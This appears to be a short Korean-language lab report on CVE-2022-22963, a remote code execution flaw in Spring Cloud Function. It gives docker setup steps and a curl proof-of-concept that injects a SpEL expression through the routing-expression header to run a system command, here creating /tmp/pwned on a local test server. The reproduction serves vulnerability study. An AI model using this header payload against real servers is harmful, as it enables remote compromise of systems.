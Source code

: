 # CVE-2022-22963 (Spring Cloud Function RCE) 보고서

## 1. 요약
CVE-2022-22963은 Spring Cloud Function 3.1.6 이하 버전에서 발생하는 원격 코드 실행(RCE) 취약점
공격자는 HTTP 요청의 `spring.cloud.function.routing-expression` 헤더를 조작하여 서버에서 임의의 시스템 명령어를 실행

---

## 2. 환경 구성 및 실행
1. `docker-compose up -d` 명령어로 테스트트 환경 실행
2. `localhost:8080/functionRouter`에 접속해서 서버가 실행되고 있는지 확인
3. curl 명령어로 RCE PoC 공격
4. 도커 컨테이너의 /tmp 디렉토리에서 pwned 파일 확인

---

## 3. 취약점 검증 (PoC)
- PoC 방식: HTTP POST 요청에 조작된 헤더를 삽입하여 시스템 명령어 실행 시도

**PoC 명령어:**
```bash
curl -X POST "http://localhost:8080/functionRouter" -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/pwned\")" -d "test"
```

---
## 4. 결과
![curl PoC 캡처](./1.png)
![결과 캡처](./2.png)


